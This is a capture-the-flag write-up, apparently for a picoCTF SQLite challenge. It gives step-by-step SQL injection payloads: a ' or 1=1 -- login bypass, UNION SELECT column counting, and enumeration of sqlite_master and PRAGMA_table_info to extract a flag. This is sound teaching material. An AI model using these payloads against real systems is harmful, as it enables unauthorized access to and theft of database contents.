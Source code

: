 # Synopsis
To get the required info from the database to complete the challenge, we'll need to achieve the following major goals:
## A: Break into the website using the SQL login bypass technique
#### Step 1: Inject the following code into the login page at the username field
```
' or 1=1 -- 
```
#### Step 2: Observe why it didn't work.
The usual order of username first, then password is reversed in the SQL query we are shown.
#### Step 3: Inject the following code into the password field
```
' or 1=1 -- 
```
After submitting the data, we should be logged in

## B: Determine how number of columns from the original query and the type of SQL software
#### Step 1: Provide a valid response from the database, but also send a UNION SELECT query to determine how many columns the original query returned. Provide the following code to the search field:
```
Algiers' UNION SELECT null -- 
```
We observe that nothing is returned, so the original query was not one column.
#### Step 2: Increment the payload and test if there are two columns with the following code:
```
Algiers' UNION SELECT null, null -- 
```
Once again, nothing is returned, so it is not two columns.
#### Step 3: Increment the payload again and test if there are three columns:
```
Algiers' UNION SELECT null, null, null -- 
```
We see that the entry for Algiers is returned with this injection payload, so we can confirm that we should send three columns with our SQL injection payloads.
#### Step 4: Determine which type of SQL software is being used
If we look at the hint on the challenge description page on the picoCTF website, it says SQLiLite, which points to the SQL system used as SQLite, so we'll be using SQLite functions and syntax to get more database info.

## C: Extract the desired info from the database
#### Step 1: Using SQLite function, determine what tables exist on the database with the following payload:
```
Algiers' UNION SELECT null, null, name FROM sqlite_master WHERE type='table' -- 
```
There are a number of tables, but the one we're looking for is called *more_table*
#### Step 2: Use the following SQLite syntax to retrieve the columns from the table we're interested in:
```
Algiers' UNION SELECT null, null, name FROM PRAGMA_table_info('more_table') -- 
```
We see that there is a *flag* column in the *more_table* table, so let's read it!
#### Step 3: Get all the rows from the *flag* column in the *more_table* table:
```
Algiers' UNION SELECT null, null, flag FROM more_table -- 
```
And with that, we're done!

